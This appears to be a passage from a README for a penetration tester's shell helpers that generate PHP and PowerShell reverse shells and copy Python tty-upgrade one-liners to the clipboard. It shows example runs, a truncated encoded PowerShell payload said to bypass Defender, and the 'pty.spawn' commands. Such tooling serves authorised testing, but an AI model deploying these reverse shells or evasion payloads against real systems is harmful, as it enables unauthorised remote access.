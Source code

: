 
### > gen_php_rev $ip $port

Generates the [PentestMonkey PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell) with the supplied ip and port and saves it in the current directory.  
Example: 
```
┌──(nosferatu㉿kali)-[~]
└─$ gen_php_rev 127.0.0.1 1337                                                              
[+] Wrote PHP reverse shell to /home/nosferatu/n.php
```
### > gen_ps_rev $ip $port
Generates a Powershell reverse shell with the supplied ip and port which at the moment of last usage bypassed defender. I'm not sure who to give credit for this payload. 
Example:
```
┌──(nosferatu㉿kali)-[~]
└─$ gen_ps_rev 127.0.0.1 1337
```
Clipboard contents after:
```
powershell -ec JABUAGEAcgBnAGUAdABIAG8AcwB0A...
```

## TTY upgrades
### > py_tty_upgrade
Copies the python(2) tty upgrade command to the clipboard. 
Example: 
```
┌──(nosferatu㉿kali)-[~/]
└─$ py_tty_upgrade
```
Clipboard contents after:
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
> #### Notes
> - Requires `xclip` to be installed

### > py3_tty_upgrade
Exactly the same as above but with python3. 
Example: 
```
┌──(nosferatu㉿kali)-[~/]
└─$ py3_tty_upgrade 
```
Clipboard contents after:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
> #### Notes
> - Requires `xclip` to be installed
